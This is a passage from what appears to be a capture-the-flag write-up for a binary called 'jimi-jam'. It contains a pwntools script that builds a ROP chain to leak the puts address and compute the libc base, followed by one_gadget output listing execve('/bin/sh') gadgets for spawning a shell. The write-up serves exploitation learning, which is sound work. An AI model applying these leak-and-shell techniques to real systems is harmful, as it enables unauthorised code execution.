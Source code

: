 ```python  
from pwn import *  
import sys

io = process(["./jimi-jam"], env={ "LD_PRELOAD": "./libc.so.6" })

io.recvline()

center = io.recvline().rsplit(b" ", 1)[-1].strip()  
base = int(center.decode("utf-8")[2:], 16) - 0x4060  
print(center)  
print(hex(base))

io.recvline()

pop_rdi = 0x00000000000013a3 + base

# address of puts in main  
loop = 0x130d + base

puts_got = 0x3fa0 + base

print("puts_got", hex(puts_got))

payload = b"A" * 16 + p64(pop_rdi) + p64(puts_got) + p64(loop)

io.sendline(payload)

puts = io.readline()[:-1].ljust(8, b"\x00")  
print("puts", puts)

puts = u64(puts)

libc_base = puts - 0x625a0 - 0x25000  
print("libc_base", hex(libc_base))  
```

With the knowledge of the `libc` base address we can work on getting a shell.  
I simply used `one_gagdet` here:  
```  
$ one_gadget ./libc.so.6  
0xe6e73 execve("/bin/sh", r10, r12)  
constraints:  
 [r10] == NULL || r10 == NULL  
 [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)  
constraints:  
 [r10] == NULL || r10 == NULL  
 [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)  
constraints:  
 [rsi] == NULL || rsi == NULL  
 [rdx] == NULL || rdx == NULL  
```
